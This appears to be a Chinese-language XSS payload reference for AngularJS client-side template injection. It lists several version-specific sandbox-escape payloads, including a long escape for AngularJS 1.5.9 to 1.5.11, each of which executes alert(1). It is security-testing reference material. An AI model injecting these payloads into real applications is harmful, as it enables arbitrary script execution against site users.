 # Angular 和 AngularJS 中的 XSS

## 概述

* [客户端模板注入](#客户端模板注入)
    * [存储型/反射型 XSS](#存储型反射型-xss)
    * [高级绕过 XSS](#高级绕过-xss)
    * [盲 XSS](#盲-xss)
* [自动清理](#自动清理)
* [参考文献](#参考文献)

## 客户端模板注入

以下有效载荷基于客户端模板注入。

### 存储型/反射型 XSS

必须在根元素中存在 `ng-app` 指令以允许客户端注入（参见 [AngularJS: API: ngApp](https://docs.angularjs.org/api/ng/directive/ngApp)）。

> AngularJS 版本 1.6 及以上已完全移除了沙箱机制

AngularJS 1.6+ 由 [Mario Heiderich](https://twitter.com/cure53berlin) 提供

```javascript
{{constructor.constructor('alert(1)')()}}
```

AngularJS 1.6+ 由 [@brutelogic](https://twitter.com/brutelogic/status/1031534746084491265) 提供

```javascript
{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
```

示例可访问 [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?a=%7B%7B[].pop.constructor%26%2340%27alert%5Cu00281%5Cu0029%27%26%2341%26%2340%26%2341%7D%7D)

AngularJS 1.6.0 由 [@LewisArdern](https://twitter.com/LewisArdern/status/1055887619618471938) & [@garethheyes](https://twitter.com/garethheyes/status/1055884215131213830) 提供

```javascript
{{0[a='constructor'][a]('alert(1)')()}}
{{$eval.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}
```

AngularJS 1.5.9 - 1.5.11 由 [Jan Horn](https://twitter.com/tehjh) 提供

```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
